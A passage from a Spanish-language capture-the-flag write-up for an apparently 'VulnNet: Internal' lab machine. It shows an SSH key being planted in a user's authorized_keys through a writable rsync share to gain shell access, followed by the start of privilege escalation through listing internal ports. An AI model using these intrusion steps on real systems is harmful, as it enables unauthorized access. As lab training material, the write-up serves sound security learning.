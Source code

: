 Para eso generamos un nuevo par de claves SSH y copiamos nuestra clave pública a un archivo `authorized_keys`.

```bash
❯ ssh-keygen
Generating public/private rsa key pair.
...

❯ cp ~/.ssh/id_rsa.pub ~/.ssh/authorized_keys
```

Ahora lo subimos al servidor.

```bash
❯ rsync -av ~/.ssh/authorized_keys rsync://rsync-connect@10.10.229.132/files/sys-internal/.ssh/authorized_keys
Password:
sending incremental file list
authorized_keys


sent 676 bytes  received 35 bytes  474.00 bytes/sec
total size is 563  speedup is 0.79
```

Y nos conectamos mediante SSH sin proporcionar contraseña.

```bash
❯ ssh sys-internal@10.10.229.132
...
Ubuntu comes with ABSOLUTELY NO WARRANTY, to the extent permitted by
applicable law.

sys-internal@vulnnet-internal:~$ id
uid=1000(sys-internal) gid=1000(sys-internal) groups=1000(sys-internal),24(cdrom)
```

# Escalada de privilegios

Estamos dentro como el usuario `sys-internal`.

## Abriendo puertos internos

Viendo los puertos abiertos internamente vemos algunos que no vimos con el escaneo de nmap.

```bash
sys-internal@vulnnet-internal:/dev/shm$ ss -tno
State          Recv-Q      Send-Q                  Local Address:Port                    Peer Address:Port
ESTAB          0           0                       10.10.229.132:22                      10.9.102.119:37568       timer:(keepalive,94min,0)
ESTAB          0           0                  [::ffff:127.0.0.1]:47121             [::ffff:127.0.0.1]:8111
ESTAB          0           0                  [::ffff:127.0.0.1]:8111              [::ffff:127.0.0.1]:47121
CLOSE-WAIT     1           0                  [::ffff:127.0.0.1]:48639             [::ffff:127.0.0.1]:8111
```
